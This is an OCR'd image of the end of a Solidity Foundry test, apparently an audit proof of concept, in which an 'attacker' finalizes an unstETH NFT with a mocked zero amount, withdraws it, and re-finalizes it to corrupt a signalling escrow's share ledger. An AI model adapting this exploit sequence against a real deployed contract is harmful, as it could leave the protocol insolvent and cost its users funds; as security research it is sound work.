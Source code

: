 ```solidity
            abi.encode(zeroAmounts)
        );

        console.log("--- Step 2: Attacker calls markUnstETHFinalized with amount 0 ---");
        escrow.markUnstETHFinalized(unstETHIds, hints);

        // Verify status is still Locked
        ISignallingEscrow.LockedUnstETHDetails[] memory lockedDetails = escrow.getLockedUnstETHDetails(unstETHIds);
        assertEq(uint(lockedDetails[0].status), 1, "NFT status should still be Locked"); // 1 is UnstETHRecordStatus.Locked
        console.log("SUCCESS: NFT status remains 'Locked'.");

        // === Step 3: Attacker withdraws the original asset ===
        // We need to time-travel past the min lock duration
        vm.warp(block.timestamp + 2 days);

        vm.startPrank(attacker);
        escrow.unlockUnstETH(unstETHIds);
        vm.stopPrank();
        console.log("--- Step 3: Attacker successfully withdrew NFT %s ---", ATTACKER_NFT_ID);

        // === Step 4: Second finalize call with non-zero amount ===
        uint256[] memory realAmounts = new uint256[](1);
        realAmounts[0] = NFT_AMOUNT;

        // Mock the call to return the real amount
        vm.mockCall(
            address(withdrawalQueue),
            abi.encodeWithSelector(IWithdrawalQueue.getClaimableEther.selector, unstETHIds, hints),
            abi.encode(realAmounts)
        );

        console.log("--- Step 4: Anyone calls markUnstETHFinalized again with real amount ---");
        // Can be called by anyone
        escrow.markUnstETHFinalized(unstETHIds, hints);

        // === Step 5: VERIFICATION - Protocol ledger is poisoned ===
        console.log("--- Step 5: VERIFICATION ---");

        ISignallingEscrow.SignallingEscrowDetails memory detailsAfter = escrow.getSignallingEscrowDetails();
        uint256 finalUnfinalizedShares = detailsAfter.totalUnstETHUnfinalizedShares.toUint256();

        console.log("Unfinalized shares after attack:", finalUnfinalizedShares);

        // Core Assertion: The total unfinalized shares have been reduced, even though the attacker
        // already got their asset back. The protocol has incurred a loss.
        assertEq(finalUnfinalizedShares, 0, "Unfinalized shares should be 0, proving the deficit");

        console.log(
            "PoC Successful: Protocol ledger is corrupted, creating a deficit of %s shares. Protocol is insolvent.",
            sharesAmount
        );
    }
}
```
